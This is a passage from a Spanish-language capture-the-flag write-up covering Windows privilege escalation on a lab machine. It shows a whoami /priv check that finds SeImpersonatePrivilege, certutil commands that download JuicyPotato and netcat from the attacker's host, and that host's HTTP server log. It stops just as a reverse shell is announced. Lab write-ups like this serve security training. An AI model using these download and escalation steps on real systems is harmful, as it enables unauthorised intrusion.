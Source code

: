 Ya nos encontramos dentro de la máquina y podemos visualizar la flag (user.txt). Ahora solo nos queda escalar privilegios, por lo que vamos a enumerar un poco el sistema.

```bash
C:\Users\Sarah\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

C:\Users\Sarah\Desktop>

```

Vemos que tenemos el privilegio `SeImpersonatePrivilege` habilitado, por lo que ya debemos estar pensando en un [***Juicy Potato***](https://github.com/ohpe/juicy-potato/releases/tag/v0.1).

```bash
C:\Users\Sarah\Desktop> cd C:\Windows\Temp
C:\Windows\Temp> mkdir Privesc
C:\Windows\Temp> cd Privesc
C:\Windows\Temp\Privesc> certutil.exe -f -urlcache -split http://10.10.14.27/JuicyPotato.exe JP.exe
****  Online  ****
  000000  ...
  054e00
CertUtil: -URLCache command completed successfully.

C:\Windows\Temp\Privesc> certutil.exe -f -urlcache -split http://10.10.14.27/nc.exe nc.exe
****  Online  ****
  0000  ...
  6e00
CertUtil: -URLCache command completed successfully.

C:\Windows\Temp\Privesc>
```

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.59 - - [19/Nov/2021 12:57:47] "GET /JuicyPotato.exe HTTP/1.1" 200 -
10.10.10.59 - - [19/Nov/2021 12:57:50] "GET /JuicyPotato.exe HTTP/1.1" 200 -
10.10.10.59 - - [19/Nov/2021 13:05:02] "GET /nc.exe HTTP/1.1" 200 -
10.10.10.59 - - [19/Nov/2021 13:05:09] "GET /nc.exe HTTP/1.1" 200 -
```

Ahora nos entablamos una reverse shell a nuestra máquina:
